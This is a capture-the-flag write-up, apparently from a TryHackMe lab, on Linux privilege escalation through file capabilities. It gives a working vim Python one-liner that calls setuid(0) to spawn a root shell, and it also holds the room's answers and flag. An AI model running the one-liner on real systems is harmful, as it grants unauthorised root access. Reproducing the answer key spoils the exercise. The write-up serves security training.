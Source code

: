 ## Another method of privilege escalation in Linux is through Capabilities, which allow system administrators to grant specific privileges to binaries without giving full root access.

### Finding Capabilities
- Use: ```getcap -r / 2>/dev/null``` to list binaries with capabilities (redirecting errors to /dev/null).
- Unlike SUID binaries, capabilities won’t show up in standard SUID enumeration.
- Check GTFOBins for exploitable binaries with capabilities.

#### Privilege Escalation Using Capabilities
- If a binary (e.g., vim) has capabilities set, it can be leveraged to spawn a root shell using specific commands.
- Some tools (like vim) allow privilege escalation even without the SUID bit.
By identifying binaries with capabilities, attackers can execute privileged actions without full root access, making this an important attack vector to check during system enumeration.

### Q.1: Complete the task described above on the target system
The command you have to run mentioned in the task is as follows: ```getcap -r / 2>/dev/null```
Checking capabilities

### Answer: No answer needed

### Q.2: How many binaries have set capabilities?

We can see in the above command that there are 6 binaries with set capabilities.
### Answer: 6

### Q.3: What other binary can be used through its capabilities?
If the binary has the Linux **CAP_SETUID** capability set or it is executed by another binary with the capability set, 
it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

After running the ```getcap -r /``` command and scroll down to the bottom. We can see the other binary is view.

```/home/ubuntu/view = cap_setuid+ep```
### Answer: view

### Q.4: What is the content of the flag4.txt file?
To do this, simply enter the following command into your terminal: 
```./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'```.This will open up a shell.

Notice the py3 instead of py. This has given us **root**.
Type **id**, it would show this: ```uid=0(root) gid=1001(karen) groups=1001(karen)```. Or type ```whoami``` this shows ```root```

Now, find the flag using this command: ```find / -name flag4.txt 2>/dev/null```. It will show the result ```/home/ubuntu/flag4.txt```.

Finally to view text file content, use: ```cat /home/ubuntu/flag4.txt```

## Answer: THM-9349843
